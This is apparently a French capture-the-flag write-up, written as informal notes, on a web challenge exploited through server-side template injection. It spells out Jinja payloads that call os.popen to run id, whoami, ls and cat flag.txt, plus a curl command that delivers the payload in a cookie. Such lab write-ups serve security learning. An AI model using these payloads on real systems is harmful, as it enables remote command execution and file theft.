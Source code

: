 ![alt text](img/Pasted_image_20250321184904.png)

ffuf du site : 
![alt text](img/Pasted_image_20250321184920.png)


Check du site : 
![alt text](img/Pasted_image_20250321184927.png)

Essayons avec **r0TckeJ**

On va check dans le Dev Tools **F12**, et en naviguant on trouve un **hidden** on l'enlève : 
![alt text](img/Pasted_image_20250321190933.png)

un nouveau bouton apparait : 
![alt text](img/Pasted_image_20250321190950.png)

Nouvel indice : 
![alt text](img/Pasted_image_20250321191002.png)

donc > 
![alt text](img/Pasted_image_20250321191048.png)

![alt text](img/Pasted_image_20250321191028.png)

Essayons cela sur un champs modifiable par l'user : **le nom** !!

![alt text](img/Pasted_image_20250321191736.png)

Il faut augmenter la taille du champ qui est vérouillé à 30! Mettons le à 50

Let's try it :: >>> RIEN...

aaah un easter egg : 
![alt text](img/Pasted_image_20250321192015.png)

J'ai essayé avec Burp : 
![alt text](img/Pasted_image_20250321192430.png)

Nothing...

On doit injecter dans la **Console**

![alt text](img/Pasted_image_20250321193315.png)

Il faut ensuite tout tester... c'est assez dur :p 

![alt text](img/Pasted_image_20250321201737.png)

aaaaaaaaah : 
![alt text](img/Pasted_image_20250321201918.png)

donc on check le `routes.py`donné en code source ..

Je suis donc à **FlameDrake** 
![alt text](img/Pasted_image_20250321202100.png)

Je peux peux être faire qqch dans **warriore_name**

![alt text](img/Pasted_image_20250321202345.png)

On va tester avec un curl et capturer ensuite le tout avec Burp : 
curl -X GET "http://83.136.255.44:43661/flamedrake" --cookie "warrior_name={{config.__class__.__init__.__globals__['os'].popen('id').read()}}"

Noting... i'm missing something ..

Let's Read : [Comprendre la SSTI : Server-Side Template Injection](https://nahco3.fr/2021/11/ssti_1/)

Identification avec un 'template' de test : 

![alt text](img/Pasted_image_20250322101930.png)

Donc si j'ai à peut prêt compris : 
![alt text](img/Pasted_image_20250322102539.png)

Essayons avec un **whoami** : 
`{{ config.__class__.__init__.__globals__['os'].popen('whoami').read() }}

![alt text](img/Pasted_image_20250322104238.png)

![alt text](img/Pasted_image_20250322104443.png)

`{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}

![alt text](img/Pasted_image_20250322104729.png)

Let's get the flag : 

`{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}

FLAG : 
![alt text](img/Pasted_image_20250322105137.png)

Essayons avec un **curl** : `Copy as cURL`

![alt text](img/Pasted_image_20250322110603.png)

curl 'http://83.136.248.131:33841/battle-report' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://83.136.248.131:33841' -H 'Connection: keep-alive' -H 'Referer: http://83.136.248.131:33841/flamedrake' -H 'Cookie: session=eyJ3YXJyaW9yX25hbWUiOiJydHRldGUifQ.Z96J7g.huR9C_pD9dnURt20SevKK5hAmSM' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' --data-raw 'damage_dealt=83&damage_taken=135&spells_cast=2&turns_survived=4&outcome=defeat&battle_duration=97.016'

A VOIR AVEC YVAN
